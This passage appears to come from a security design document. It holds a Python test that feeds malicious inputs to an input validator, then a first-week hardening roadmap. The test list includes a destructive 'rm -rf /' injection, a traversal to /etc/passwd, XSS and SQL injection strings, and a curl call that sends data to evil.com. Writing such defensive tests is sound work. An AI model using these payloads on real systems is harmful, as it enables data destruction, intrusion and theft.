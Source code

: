 ```python
            # Command injection tests
            "'; rm -rf /; echo 'hacked",
            "../../../etc/passwd",
            "<script>alert('xss')</script>",
            "' UNION SELECT password FROM users--",
            "$(curl http://evil.com/steal-data)"
        ]
        
        results = []
        for test_case in test_cases:
            try:
                # This should be blocked by input validation
                result = self._attempt_malicious_input(test_case)
                results.append(TestCase(
                    input=test_case,
                    blocked=False,  # SECURITY FAILURE
                    severity="CRITICAL"
                ))
            except SecurityException:
                results.append(TestCase(
                    input=test_case,
                    blocked=True,   # SECURITY SUCCESS
                    severity="INFO"
                ))
                
        return TestResult(
            test_name="Input Validation",
            test_cases=results,
            pass_rate=self._calculate_pass_rate(results)
        )
```

## Implementation Roadmap

### Phase 1: Critical Security Foundation (Week 1)

```yaml
WEEK 1 - CRITICAL SECURITY:
Input Validation Framework:
  - Multi-layer input sanitization
  - Path validation security
  - Pattern-based attack detection
  
Command Execution Security:
  - Sandbox execution environment
  - Command validation system
  - Shell injection prevention
  
Basic Authentication:
  - User authentication system
  - Session management
  - Rate limiting protection
```
